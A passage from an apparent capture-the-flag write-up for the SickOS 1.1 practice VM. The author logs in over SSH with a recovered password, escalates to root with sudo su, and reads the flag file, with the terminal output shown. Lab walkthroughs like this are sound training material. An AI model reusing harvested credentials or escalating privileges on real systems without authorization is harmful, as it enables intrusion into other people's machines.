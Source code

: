 I tried the password for mysql but nothing came out. After a long hit finally I came with a solution with this password `john@123`.

```console
root@kali:~# ssh sickos@192.168.1.8
sickos@192.168.1.8's password: 
Welcome to Ubuntu 12.04.4 LTS (GNU/Linux 3.11.0-15-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sat Feb 23 11:24:37 IST 2019

  System load:  0.0               Processes:           111
  Usage of /:   4.3% of 28.42GB   Users logged in:     0
  Memory usage: 36%               IP address for eth0: 192.168.1.8
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

124 packages can be updated.
92 updates are security updates.

New release '14.04.3 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sat Feb 23 10:03:14 2019 from kali
sickos@SickOs:~$ 
```

Great!!!

```console
sickos@SickOs:~$ cd /root
-bash: cd: /root: Permission denied
sickos@SickOs:~$ sudo su
[sudo] password for sickos: 
root@SickOs:/home/sickos# id
uid=0(root) gid=0(root) groups=0(root)
```

Now get the Flag

```console
root@SickOs:/# cd root
root@SickOs:~# ls
a0216ea4d51874464078c618298b1367.txt
root@SickOs:~# cat a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying


```

This was a bit easy.

## Thank You! for learning with me. Keep Moving!!!